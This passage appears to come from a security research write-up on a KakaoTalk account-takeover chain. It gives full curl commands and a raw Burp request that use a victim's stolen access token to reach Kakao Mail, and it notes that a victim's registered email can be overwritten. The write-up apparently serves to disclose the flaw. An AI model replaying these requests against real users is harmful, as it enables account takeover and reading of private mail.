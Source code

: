 Now, in possession of the access token what could we do with it? Well, how about we use it to take over the victim's Kakao Mail account that was used for KakaoTalk registration!

> **_NOTE:_** If the victim doesn't have a Kakao Mail account it's possible to create a new Kakao Mail account on her/his behalf. This is interesting because creating a new Kakao Mail account overwrites the user's previous registered email-address with no additional checks. Scroll to the end of this section to check out how to do that.

First, we needed to check if the victim actually uses Kakao Mail:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'
```

Next, we had to grab another access token to access Kakao Mail:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: api-account.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/10.4.3/en' -H $'C: 2cc348d0-b7f7-464c-b72b-1e3f66a04362' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 174' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    --data-binary $'key_type=talk_session_info&key=64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e&referer=talk' \
    $'https://api-account.kakao.com/v1/auth/tgt'
```

This was an example response:

```json
{"code":0,"token":"5e09081b0cce35288422a0b6589ef860","expires":1700735745,"verifyToken":null}
```

With the newly gathered token we could access a victim's Kakao Mail account with Burp. Here's a way for you to reproduce it:

1. Launch Burp's browser: go to the `Proxy > Intercept` tab, click `Open browser` and clear the browser's cache.
2. Go to the `Repeater` tab and create a new `HTTP` request (click on the `+` button).
3. Paste in the following (adapt the `Ka-Tgt` header accordingly):
```
GET / HTTP/2
Host: talk.mail.kakao.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 11; sdk_gphone_arm64 Build/RSR1.210722.013.A6; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.114 Mobile Safari/537.36;KAKAOTALK 2610380
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Km-Viewer-Ver: 1
Kakaotalk-Agent: os=android;osver=30;appver=10.4.3;lang=en;dtype=1;idiom=phone;device=SDK_GPHONE_ARM64
Ka-Tgt: 5e09081b0cce35288422a0b6589ef860
X-Requested-With: com.kakao.talk
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
